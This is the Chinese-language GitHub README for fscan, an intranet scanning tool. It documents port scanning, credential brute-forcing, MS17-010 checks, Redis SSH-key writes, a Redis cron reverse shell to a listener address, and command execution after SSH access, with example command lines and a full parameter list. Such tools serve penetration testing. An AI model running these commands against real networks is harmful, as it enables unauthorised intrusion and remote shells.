 # fscan

# 简介
一款内网扫描工具，方便一键大保健。    
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写私钥、计划任务反弹shell、读取win网卡信息、web漏洞扫描等。  
趁着最近有空，用go把f-scrack重构了一遍。使用go来编写，也有更好的扩展性及兼容性。  
还在逐步增加功能，欢迎各位师傅提意见。


## why
为什么有LadonGo、x-crack 、tscan、Gscan 这些工具了还要写fscan  

答：  
   因为用习惯了f-scrack，习惯一条命令跑完所有模块，省去一个个模块单独调用的时间，当然我附加了-m 指定模块的功能。

## 最近更新
[+] 2021/2/8 增加指纹识别功能,可识别尝试CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。   
   修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度    
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试    
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户)  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理

## usege
简单用法
``` 
go run main.go -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写私钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
```
```
-h 192.168.1.1/24 (C段)  
-h 192.168.1.1/16 (B段)
-h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
-hf ip.txt  (以文件导入)
```


完整参数
```
  -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -it int
        Icmp Threads nums (default 11000)
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,11211,27017")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 200)
  -time int
        Set timeout (default 3)
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 3)

```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](image/1.png)

![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写私钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)

`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`
![](image/2020-12-12-13-34-44.png)

## 未来计划
[*] 合理输出当前扫描进度  
[*] 增加内网常见高危漏洞  
[*] 增加高危web漏洞扫描  
[*] 师傅们觉得有必要加的漏洞，也可以提issue  


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc
